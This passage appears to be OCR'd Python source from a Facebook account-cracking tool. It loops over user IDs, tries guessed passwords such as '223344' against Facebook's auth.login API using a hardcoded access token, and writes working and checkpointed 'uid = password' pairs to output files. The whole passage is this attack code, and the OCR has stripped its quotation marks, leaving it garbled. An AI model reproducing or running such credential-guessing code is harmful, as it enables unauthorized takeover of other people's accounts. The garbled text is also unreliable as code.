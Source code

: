  

		                                            ok=open(PR4SH4N7ok.txt,a)

 

		                                            ok.write(uid+ = +pass5+\n)

 

		                                            ok.close()

 

		                                            oks.append(uid)

 

		                                        else:

 

		                                            pass6=223344

 

		                                            q = requests.get(https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email= + uid + &locale=vi_vn&password= + pass6 + &sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c, headers=header).text

 

		                                            d=json.loads(q)

 

		                                            if www.facebook.com in d[error_msg]:

 

		                                                print(\033[1;93m[DEI__Z3N>CP] +uid+ = +pass6)

 

		                                                cp=open(PR4SH4N7cp.txt,a)

 

		                                                cp.write(uid+ = +pass6+\n)

 

		                                                cp.close()

 

		                                                cps.append(uid)

 

		                                            else:

 

		                                                if access_token in d:

 

		                                                    print(\x1b[1;97m[DEI__Z3N = OK] +uid+ = +pass6+\x1b[1;0m)

 

		                                                    ok=open(PR4SH4N7ok.txt,a)

 
